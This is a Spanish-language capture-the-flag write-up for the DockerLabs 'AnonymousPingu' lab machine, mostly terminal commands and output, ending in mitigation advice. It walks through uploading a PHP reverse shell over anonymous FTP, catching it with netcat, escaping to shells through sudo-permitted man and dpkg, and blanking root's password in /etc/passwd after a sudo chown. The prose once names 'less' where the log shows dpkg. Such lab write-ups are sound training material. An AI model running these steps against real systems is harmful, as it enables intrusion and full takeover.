


# AnonymousPingu — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** Easy | **Target IP:** 172.17.0.2 | 

## Descripcion 

FTP login como anonymous activado y que a su vez está vinculado con el servidor web de la máquina.

## Attack chain

**Nmap → Web Enumeration → Gobuster → Anonymous FTP Access → Malicious File Upload → Reverse Shell → www-data Access → Sudo/Man Abuse → pingu Access → Less Abuse → gladys Access → Sudo/Chown Abuse → Root**

### 1. Analisis y escaneo del objetivo.

```text
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/anonymousPingu]
└─$ nmap -sV -sC -p- 172.17.0.2 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-11 17:56 -0300
Nmap scan report for 172.17.0.2
Host is up (0.0000070s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0            7816 Nov 25  2019 about.html
| -rw-r--r--    1 0        0            8102 Nov 25  2019 contact.html
| drwxr-xr-x    2 0        0            4096 Jan 01  1970 css
| drwxr-xr-x    2 0        0            4096 Apr 28  2024 heustonn-html
| drwxr-xr-x    2 0        0            4096 Oct 23  2019 images
| -rw-r--r--    1 0        0           20162 Apr 28  2024 index.html
| drwxr-xr-x    2 0        0            4096 Oct 23  2019 js
| -rw-r--r--    1 0        0            9808 Nov 25  2019 service.html
|_drwxrwxrwx    1 33       33           4096 Apr 28  2024 upload [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Mantenimiento
MAC Address: 5E:6B:D9:9B:37:76 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.42 seconds


```
Segun el resultado de nmap podemos verificar que tenemos un servicio FTP y uno web, cada uno con sus respectivos archivos.

Ingresamos a la pagina de la cual no tenemos informacion o posibilidad de explotar ninguna vulnerabilidad.


## 2. Fuzzing WEB 

Realizamos un fuzzing web para buscar directorios o archivos ocultos. 

```text
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/anonymousPingu]
└─$ gobuster dir  -u http://172.17.0.2/  -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -x php,html,htm,txt,bak,old,zip,conf,config,log 
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              bak,old,zip,conf,config,php,html,log,htm,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
images               (Status: 301) [Size: 309] [--> http://172.17.0.2/images/]
js                   (Status: 301) [Size: 305] [--> http://172.17.0.2/js/]
css                  (Status: 301) [Size: 306] [--> http://172.17.0.2/css/]
contact.html         (Status: 200) [Size: 8102]
upload               (Status: 301) [Size: 309] [--> http://172.17.0.2/upload/]
about.html           (Status: 200) [Size: 7816]
index.html           (Status: 200) [Size: 20162]
service.html         (Status: 200) [Size: 9808]
server-status        (Status: 403) [Size: 275]
index.html           (Status: 200) [Size: 20162]
Progress: 685091 / 685091 (100.00%)
===============================================================
Finished
===============================================================
                                                                           
```
Accedemos a  `172.17.0.2/upload/` y vemos que se puede acceder a el y realizar peticiones. En las demas como `http://172.17.0.2/images/`, `http://172.17.0.2/js/`, `http://172.17.0.2/css/` podemos ingresar pero solo tenemos archivos de la pagina web mostrada.



Procedemos a ingresar al servidor FTP y subir una reverse shell.


## 3. FTP Subida de reverse shell y acceso al servidor.

Ingresamos con el usuario `anonymous` y subimos la reverse shell a la carpeta de `upload`, utilizamos la reverse shell de pentesmokey y la editamos de acuerdo a nuestra ip y puerto de escucha .

```text
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/anonymousPingu]
└─$ ftp 172.17.0.2                                                                                   
Connected to 172.17.0.2.
220 (vsFTPd 3.0.5)
Name (172.17.0.2:mariano): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
ftp> ls
229 Entering Extended Passive Mode (|||58019|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0            7816 Nov 25  2019 about.html
-rw-r--r--    1 0        0            8102 Nov 25  2019 contact.html
drwxr-xr-x    2 0        0            4096 Jan 01  1970 css
drwxr-xr-x    2 0        0            4096 Apr 28  2024 heustonn-html
drwxr-xr-x    2 0        0            4096 Oct 23  2019 images
-rw-r--r--    1 0        0           20162 Apr 28  2024 index.html
drwxr-xr-x    2 0        0            4096 Oct 23  2019 js
-rw-r--r--    1 0        0            9808 Nov 25  2019 service.html
drwxrwxrwx    1 33       33           4096 Apr 28  2024 upload
226 Directory send OK.
ftp> cd upload
250 Directory successfully changed.
ftp> put php-reverse-shell.php
local: php-reverse-shell.php remote: php-reverse-shell.php
229 Entering Extended Passive Mode (|||46303|)
150 Ok to send data.
100% |********************************************************************************|  5492       50.84 MiB/s    00:00 ETA
226 Transfer complete.
5492 bytes sent in 00:00 (12.90 MiB/s)
ftp> ls
229 Entering Extended Passive Mode (|||33021|)
150 Here comes the directory listing.
-rwxrwxrwx    1 101      103          5492 Oct 11 20:59 php-reverse-shell.php
226 Directory send OK.
ftp> 

```
Continuamos con la conexion al servidor usando la [reverse shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) de pentest monkey, nos ponemos en escucha en el puerto `4444`.

```
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/anonymousPingu]
└─$ nc -lvnp 4444
listening on [any] 4444 ...

```
Realizamos la peticion para ganar el acceso al servidor ya que no encontramos en escucha.

```
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/anonymousPingu]
└─$ curl http://172.17.0.2/upload/php-reverse-shell.php
```

Ganamos el acceso y procedemos a establecer la terminal.

```
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/anonymousPingu]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 36568
Linux 1375eb083c2d 7.1.5+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 7.1.5-1kali1 (2026-07-29) x86_64 x86_64 x86_64 GNU/Linux
 22:51:36 up 14:40,  0 user,  load average: 0.39, 0.61, 0.84
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@1375eb083c2d:/$ ^Z
zsh: suspended  nc -lvnp 4444
                                                                                                                             
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/anonymousPingu]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444

www-data@1375eb083c2d:/$ export TERM=xterm
www-data@1375eb083c2d:/$ export SHELL=bash
www-data@1375eb083c2d:/$ stty rows 23 columns 125
www-data@1375eb083c2d:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@1375eb083c2d:/$ whoami
www-data
www-data@1375eb083c2d:/$ 
```
Continuamos con los pasos finales para escalar privilegios.

## 4. Escalada de privilegios.

Usamos `sudo -l` y escalamos privilegios con `(pingu) NOPASSWD: /usr/bin/man` y pasamos al usuario `pingu`, su utiliza `sudo -u pingu /usr/bin/man man` para ejecutar el binario con el usuario `pingu` ya que posemos con dicho usuario y luego dentro de man invocamos la shell con `!/bin/bash`

```
www-data@1375eb083c2d:/$ sudo -u pingu /usr/bin/man man
MAN(1)                                              Manual pager utils                                             
MAN(1)

NAME
       man - an interface to the system reference manuals

SYNOPSIS
       man [man options] [[section] page ...] ...
       man -k [apropos options] regexp ...
       man -K [man options] [section] term ...
       man -f [whatis options] page ...
       man -l [man options] file ...
       man -w|-W [man options] page ...

DESCRIPTION
       man  is  the system's manual pager.  Each page argument given to man is normally the name of a pr
ogram, utility or
       function.  The manual page associated with each of these arguments is then found and  displayed.   A  
section,  if
       provided,  will  direct man to look only in that section of the manual.  The default action is to search
 in all of
       the available sections following a pre-defined order (see DEFAULTS), and to show only the first page
!/bin/bash
pingu@1375eb083c2d:/$ id
uid=1001(pingu) gid=1001(pingu) groups=1001(pingu)
pingu@1375eb083c2d:/$ 

```
Con el usuario `pingu` ejecutamos `sudo -l` para escalar nuevamente privilegios con el usuario `gladys` utilizando un metodo similar al anterior pero utilizando `less` y el menu interactivo utilizamos `!/bin/bash` para invocar la shell nuevamente


```
pingu@1375eb083c2d:/$ sudo -l
Matching Defaults entries for pingu on 1375eb083c2d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User pingu may run the following commands on 1375eb083c2d:
    (gladys) NOPASSWD: /usr/bin/nmap
    (gladys) NOPASSWD: /usr/bin/dpkg
pingu@1375eb083c2d:/$ sudo -u gladys /usr/bin/dpkg -l
Desired=Unknown/Install/Remove/Purge/Hold
| Status=Not/Inst/Conf-files/Unpacked/halF-conf/Half-inst/trig-aWait/Trig-pend
|/ Err?=(none)/Reinst-required (Status,Err: uppercase=bad)
||/ Name                          Version                                 Architecture Description
+++-=============================-=======================================-============-======================================
==========================================
ii  adduser                       3.137ubuntu1                            all          add and remove users and groups
ii  apache2                       2.4.58-1ubuntu8.1                       amd64        Apache HTTP Server
ii  apache2-bin                   2.4.58-1ubuntu8.1                       amd64        Apache HTTP Server (modules and other 
binary files)
ii  apache2-data                  2.4.58-1ubuntu8.1                       all          Apache HTTP Server (common files)
ii  apache2-utils                 2.4.58-1ubuntu8.1                       amd64        Apache HTTP Server (utility programs f
or web servers)
ii  apt                           2.7.14build2                            amd64        commandline package manager
ii  base-files                    13ubuntu10                              amd64        Debian base system miscellaneous files
ii  base-passwd                   3.6.3build1                             amd64        Debian base system master password and
 group files
ii  bash                          5.2.21-2ubuntu4                         amd64        GNU Bourne Again SHell
ii  bsdextrautils                 2.39.3-9ubuntu6                         amd64        extra utilities from 4.4BSD-Lite
ii  bsdutils                      1:2.39.3-9ubuntu6                       amd64        basic utilities from 4.4BSD-Lite
ii  ca-certificates               20240203                                all          Common CA certificates
ii  coreutils                     9.4-3ubuntu6                            amd64        GNU core utilities
!/bin/bash
gladys@1375eb083c2d:/$ id
uid=1002(gladys) gid=1002(gladys) groups=1002(gladys)

```
Continuamos con la escalada de privilegios, ahora hacia root utilizamos `chown` para cambiar la propiedad del archivo `/etc/passwd`

```
gladys@1375eb083c2d:/$ sudo -l
Matching Defaults entries for gladys on 1375eb083c2d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User gladys may run the following commands on 1375eb083c2d:
    (root) NOPASSWD: /usr/bin/chown
gladys@1375eb083c2d:/$ ls -l /etc/passwd
-rw-r--r-- 1 root root 1292 Apr 28  2024 /etc/passwd
gladys@1375eb083c2d:/$ sudo /usr/bin/chown gladys:gladys /etc/passwd
gladys@1375eb083c2d:/$ ls -l /etc/passwd
-rw-r--r-- 1 gladys gladys 1292 Apr 28  2024 /etc/passwd
gladys@1375eb083c2d:/$ 

```
Escalamos a `root` teniendo acceso al uso de `chown` cambiamos los permisos del archivo `passwd` y realizamos lo mismo con la carpeta `/etc` ya que de lo contrario no podremos remplezar los datos del campo `root`, eliminamos utilizando `sed` remplzamos x ya  que es el lugar correspondiente a la contraseña `s/root:x:/root::/g' /etc/passwd` y conseguimos acceso usuario root sin necesidad de escribir la contraseña.

Lectura del archivo passwd, significado de cada una de las columnas.



```
gladys@1375eb083c2d:/$ sudo -l
Matching Defaults entries for gladys on 1375eb083c2d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User gladys may run the following commands on 1375eb083c2d:
    (root) NOPASSWD: /usr/bin/chown
gladys@1375eb083c2d:/$ ls -l /etc/passwd
-rw-r--r-- 1 root root 1292 Apr 28  2024 /etc/passwd
gladys@1375eb083c2d:/$ sudo /usr/bin/chown gladys:gladys /etc/passwd
gladys@1375eb083c2d:/$ ls -l /etc/passwd
-rw-r--r-- 1 gladys gladys 1292 Apr 28  2024 /etc/passwd
gladys@1375eb083c2d:/$ cat /etc/passwd | sed -i 's/root:x:/root::/g' /etc/passwd 
sed: couldn't open temporary file /etc/sedplRiBF: Permission denied
gladys@1375eb083c2d:/$ sudo /usr/bin/chown gladys:gladys /etc
gladys@1375eb083c2d:/$ cat /etc/passwd | sed -i 's/root:x:/root::/g' /etc/passwd
gladys@1375eb083c2d:/$ su root
root@1375eb083c2d:/#
root@1375eb083c2d:/# whoami
root
root@1375eb083c2d:/# id
uid=0(root) gid=0(root) groups=0(root)
root@1375eb083c2d:/# 

```


# Conclusión

A partir del escaneo inicial con **Nmap**, se identificaron los servicios expuestos en la máquina, incluyendo un servidor web **Apache** y un servicio **FTP vsftpd**, que posteriormente se convirtió en el principal punto de entrada.

Al ingresar al sitio web, no se encontraron vulnerabilidades evidentes, por lo que se realizó una enumeración mediante **Gobuster**, descubriendo distintos directorios, entre ellos `upload`. Al mismo tiempo, se comprobó que el servicio FTP permitía iniciar sesión como `anonymous` y que el directorio `upload` tenía permisos de escritura.

Aprovechando esta configuración insegura, se subió una **reverse shell** al directorio `upload`. Luego, mediante una escucha con **Netcat** y una petición HTTP al archivo desde el servidor web, se obtuvo una conexión interactiva como el usuario `www-data`.

Una vez dentro del sistema, se enumeraron los permisos disponibles mediante `sudo -l`. Se identificó que era posible ejecutar `/usr/bin/man` como el usuario `pingu`. Aprovechando la funcionalidad interactiva de **man**, se invocó una shell mediante `!/bin/bash`, logrando escalar privilegios a dicho usuario.

Posteriormente, se revisaron los permisos de `sudo` de `pingu`, descubriendo que podía ejecutar `/usr/bin/dpkg` y `/usr/bin/nmap` como el usuario `gladys`. Mediante la funcionalidad interactiva de **dpkg**, se invocó una shell y se obtuvo acceso con los privilegios de `gladys`.

Finalmente, se comprobó que `gladys` podía ejecutar `/usr/bin/chown` como `root` sin proporcionar contraseña. Este permiso permitió modificar la propiedad del archivo `/etc/passwd` y del directorio `/etc`, posibilitando la modificación de la entrada de `root` para eliminar el campo de contraseña. De esta manera, se consiguió acceder como **root**, completando la escalada de privilegios.

En conclusión, la máquina **AnonymousPingu** demuestra cómo una configuración insegura del servicio FTP, combinada con permisos excesivos de `sudo` sobre herramientas interactivas y comandos de administración, puede permitir encadenar escaladas entre distintos usuarios hasta comprometer completamente el sistema. La práctica refuerza la importancia de restringir el acceso anónimo, controlar la subida de archivos y revisar cuidadosamente los permisos asignados a cada usuario.

| Vulnerabilidad / Técnica | Impacto | Mitigación |
|---|---|---|
| **Acceso anónimo al servicio FTP** | Permite acceder al servicio sin credenciales personales y subir archivos. | Deshabilitar el acceso anónimo o limitarlo a operaciones estrictamente necesarias. |
| **Directorio `upload` con permisos de escritura** | Permite alojar una reverse shell y ejecutarla a través del servidor web. | Restringir las subidas, validar los archivos y evitar la ejecución de scripts en directorios de almacenamiento. |
| **Permisos de `sudo` sobre `man`** | Permiten invocar una shell interactiva con los privilegios de otro usuario. | Revisar las reglas de `sudo` y evitar conceder permisos sobre herramientas que permitan escapar a una shell. |
| **Permisos de `sudo` sobre `dpkg` y `nmap`** | Pueden permitir ejecutar comandos con los privilegios de otro usuario mediante funcionalidades interactivas. | Limitar su ejecución mediante `sudo` y aplicar el principio de menor privilegio. |
| **Permiso de `sudo` sobre `chown`** | Permite cambiar la propiedad de archivos críticos y modificar la configuración de cuentas del sistema. | Restringir el uso de `chown` mediante `sudo` y proteger archivos como `/etc/passwd`. |
| **Modificación de `/etc/passwd`** | Permite alterar la configuración de cuentas locales y obtener acceso privilegiado como `root`. | Mantener los permisos adecuados del directorio `/etc` y de los archivos de cuentas, y auditar modificaciones no autorizadas. |

## Recomendaciones generales

- Deshabilitar el acceso anónimo al FTP y restringir los permisos de escritura.
- Evitar que los archivos subidos puedan ejecutarse desde el servidor web.
- Aplicar el principio de menor privilegio en las reglas de `sudo`.
- Revisar las herramientas permitidas mediante `sudo`, especialmente aquellas que permiten invocar shells o ejecutar comandos arbitrarios.
- Restringir los permisos de modificación sobre archivos críticos como `/etc/passwd` y `/etc/shadow`.
- Auditar periódicamente los permisos de usuarios y servicios para detectar posibles vías de escalada de privilegios.
